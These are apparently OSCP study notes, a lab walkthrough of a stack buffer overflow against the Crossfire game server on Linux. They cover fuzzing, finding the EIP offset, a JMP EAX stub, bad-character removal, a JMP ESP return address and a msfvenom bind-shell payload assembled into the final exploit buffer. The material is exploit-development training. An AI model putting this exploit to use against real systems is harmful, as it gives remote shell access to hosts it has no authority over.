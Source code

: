 ```yaml
---
title: "OSCP: Linux Buffer Overflow"
last_modified_at: 2019-11-01T16:20:02-05:00
categories:
  - Cyber Security
tags:
  - OSCP
  - Linux
  - Buffer Overflow
---
```


# Linux Buffer Overflow (Crossfire)
Download a version of the vulnerable app Crossfire
### Setup safe environment: iptables only allow traffic from loopback interface=targetip
iptables –A, -p, -d, -j # Append, protocol, destination, jump
crossfire listens on port 13327
iptables -A INPUT -p tcp --destination-port 13327 \! -d 127.0.0.1 -j DROP
iptables -A INPUT -p tcp --destination-port 4444 \! -d 127.0.0.1 -j DROP
### 1. Run debugger and crash the app
Get POC code from exploit db
edb --run /usr/games/crossfire/bin/crossfire. In EDBG: Hit RUN twice
crash = “\x41” *4379
buffer = “\x11(setup sound “ + crash + “\x90\x00#”
python fuzz.py
2. Control EIP
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379
Swap into the crash var: python linux_buffer_overflow.py 
EIP has been overwritten with the hex characters… 46 36 70 46
These are unique 4 bytes in the buffer. Now find where they are in the buffer.
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046
[*] Exact match at offset 4368
Replace “crash = "\x41" * 4368 + "B" * 4 + "C" * 7”: python EIP_BBBB.py


3. Make space for the shellcode  
Check for helpful registers: Follow in dump.
EAX points to buffer start “setup sound “ opstring (len 12). Want to avoid these bytes. 
ESP points to end of buffer “C * 7” (spare bytes). 
Add 12 bytes to EAX to align EAX with the A’s => JMP EAX we skip over “setup sound “
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > add eax,12 	83C00C add eax,byte +0xc
nasm > jmp eax 		FFE0 jmp eax
Add instructions together (JMP EAX + 12 bytes) = \x83\xc0\x0c\xff\xe0 to python. Looks like I didn’t test again here? Just note nasm output and move on?
4. Discover bad characters
All bad chars (except x00) contained in deault named script. Can use this for future.
python bad_chars.py
ID/remove bad chars in buffer. Right-click EAX. Follow in stack & dump. Stack looked better in EDBG. Scroll down dump until end of A’s. Then should see 01, 02, 03… etc until a failure. remove failure from bad_chars.py. Redo until ESP-error-free crash 
Removed: (\x00\x0a\x0d\x20)


5. Redirect execution flow - Find a return address
So, we know we want to reach the buffer pointed to by the ESP register.
EDBG: Plugins: Opcode Seacher: 
Once the application is in a crashed state use dropdown to search for:
ESP -> EIP: 
Choose 1st JMP ESP. Add address to python script at BBBB.
crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90“
EDBG: Add breakpoint at 0x08134597 to execution flow. 
Right-click Go to Address 0x08134597. Double click on it to place breakpoint.
Restart EDBG. Send payload. Should pause at First stage payload.
Next instruction is JMP ESP. F8. We are redirected to ESP 83C00C 
As EAX register aligned by stage one, a JMP EAX takes us to a clean buffer of A’s
6. Make shellcode excluding bad characters
bind or reverse? why?
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c –b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
Resulting shell code is 105 bytes
7. Add shellcode into python script
shellcode = ("\xd9\... \x30")
ret="\x97\x45\x13\x08”
crash=shellcode + "\x41" * (4368 - 105) + ret + "\x83\xC0\x0C\xFF\xE0\x90\x90“
buffer = "\x11(setup sound " + crash + "\x90\x00#“
TURN OFF EDBG FOR EXPLOIT TO WORK: RUN CROSSFIRE: RUN EXPLOIT /usr/games/crossfire/bin/crossfire
python exploit.py
id; whoami
